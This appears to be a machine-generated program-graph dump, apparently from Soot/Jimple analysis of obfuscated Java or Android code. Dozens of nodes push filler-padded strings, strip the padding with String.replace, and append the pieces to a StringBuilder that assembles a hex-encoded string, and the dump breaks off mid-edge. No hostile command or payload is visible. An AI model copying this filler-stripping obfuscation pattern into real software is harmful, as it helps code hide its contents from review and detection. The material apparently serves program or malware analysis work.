    "push \"0uE4uuu1uuuu6D\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0uE4uuu1uuuu6D\"";
    "push \"0uE4uuu1uuuu6D\""->"push \"u\"";
    "push \"u\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6572N6N9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6572N6N9\"";
    "push \"6572N6N9\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"63tttt6t12ttttF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"63tttt6t12ttttF\"";
    "push \"63tttt6t12ttttF\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ss44sssssss6ssss1sss77sss\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ss44sssssss6ssss1sss77sss\"";
    "push \"ss44sssssss6ssss1sss77sss\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"h7hhh36F6Ehh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"h7hhh36F6Ehh\"";
    "push \"h7hhh36F6Ehh\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"003699999999EE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"003699999999EE\"";
    "push \"003699999999EE\""->"push \"9\"";
    "push \"9\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"686666066060060\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"686666066060060\"";
    "push \"686666066060060\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0CC0C0CCC000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0CC0C0CCC000\"";
    "push \"0CC0C0CCC000\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0000rr0rrrr0rrr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0000rr0rrrr0rrr\"";
    "push \"0000rr0rrrr0rrr\""->"push \"r\"";
    "push \"r\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000000M\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000000M\"";
    "push \"000000M\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00000K0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00000K0\"";
    "push \"00000K0\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000000\"";
    "push \"000000\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"44440044440044400\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"44440044440044400\"";
    "push \"44440044440044400\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"001100011011\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"001100011011\"";
    "push \"001100011011\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00SSSFSESSS4SS8S\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00SSSFSESSS4SS8S\"";
    "push \"00SSSFSESSS4SS8S\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"H8C0HH00HHH0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"H8C0HH00HHH0\"";
    "push \"H8C0HH00HHH0\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000002>>>>\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000002>>>>\"";
    "push \"000002>>>>\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yyyy00yyy0yyyy0y00yy\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yyyy00yyy0yyyy0y00yy\"";
    "push \"yyyy00yyy0yyyy0y00yy\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00ZZ0ZZZZ00ZZ0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00ZZ0ZZZZ00ZZ0\"";
    "push \"00ZZ0ZZZZ00ZZ0\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000RRR00RRR0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000RRR00RRR0\"";
    "push \"000RRR00RRR0\""->"push \"R\"";
    "push \"R\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000>>>>>>0>>>0>>>0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000>>>>>>0>>>0>>>0\"";
    "push \"000>>>>>>0>>>0>>>0\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0D00000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0D00000\"";
    "push \"0D00000\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JJJ00JJJ00J00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JJJ00JJJ00J00\"";
    "push \"JJJ00JJJ00J00\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00o0000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00o0000\"";
    "push \"00o0000\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000000\"";
    "push \"000000\""->"push \"9\"";
    "push \"9\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0dddd0dd00dddd00d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0dddd0dd00dddd00d\"";
    "push \"0dddd0dd00dddd00d\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ss0000s75\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ss0000s75\"";
    "push \"ss0000s75\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"720002\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"720002\"";
    "push \"720002\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5dddB42AdC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5dddB42AdC\"";
    "push \"5dddB42AdC\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Fhh31hhhh7hhhF8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Fhh31hhhh7hhhF8\"";
    "push \"Fhh31hhhh7hhhF8\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"06011854\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"06011854\"";
    "push \"06011854\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E0020ww0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E0020ww0\"";
    "push \"E0020ww0\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00744844474444440444\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00744844474444440444\"";
    "push \"00744844474444440444\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00AAAAAA00A00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00AAAAAA00A00\"";
    "push \"00AAAAAA00A00\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0C31F33331C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0C31F33331C\"";
    "push \"0C31F33331C\""->"push \"3\"";
    "push \"3\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1mmmmmFmmmm1mmmmE1mF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1mmmmmFmmmm1mmmmE1mF\"";
    "push \"1mmmmmFmmmm1mmmmE1mF\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1Ec1ccccFcc1F\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1Ec1ccccFcc1F\"";
    "push \"1Ec1ccccFcc1F\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1iiiiE1iiiFii1iiiiEii\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1iiiiE1iiiFii1iiiiEii\"";
    "push \"1iiiiE1iiiFii1iiiiEii\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1yyyFyyy7yyy7yyyyy0yyyyA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1yyyFyyy7yyy7yyyyy0yyyyA\"";
    "push \"1yyyFyyy7yyy7yyyyy0yyyyA\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yyyy0y0y0yyyy000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yyyy0y0y0yyyy000\"";
    "push \"yyyy0y0y0yyyy000\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"060000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"060000\"";
    "push \"060000\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0TTTT000TTTTTTTT00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0TTTT000TTTTTTTT00\"";
    "push \"0TTTT000TTTTTTTT00\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"66660066766566671\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"66660066766566671\"";
    "push \"66660066766566671\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"JJJJ0J07JJJJJJE0JJJ0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"JJJJ0J07JJJJJJE0JJJ0\"";
    "push \"JJJJ0J07JJJJJJE0JJJ0\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"06MMM0MM0MMMM00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"06MMM0MM0MMMM00\"";
    "push \"06MMM0MM0MMMM00\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"9999000200\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"9999000200\"";
    "push \"9999000200\""->"push \"9\"";
    "push \"9\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01100000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01100000\"";
    "push \"01100000\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00:::0:0::0::::0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00:::0:0::0::::0\"";
    "push \"00:::0:0::0::::0\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"wwww0ww07wwwww8w73\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"wwww0ww07wwwww8w73\"";
    "push \"wwww0ww07wwwww8w73\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7QQ2QQQQ00QQQQQQ0DQQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7QQ2QQQQ00QQQQQQ0DQQ\"";
    "push \"7QQ2QQQQ00QQQQQQ0DQQ\""->"push \"Q\"";
    "push \"Q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"796168\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"796168\"";
    "push \"796168\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"@@6F@@@@6F2E@@@@\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"@@6F@@@@6F2E@@@@\"";
    "push \"@@6F@@@@6F2E@@@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gg436gggC6gF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gg436gggC6gF\"";
    "push \"gg436gggC6gF\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6iiiiiiE6iii572i\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6iiiiiiE6iii572i\"";
    "push \"6iiiiiiE6iii572i\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
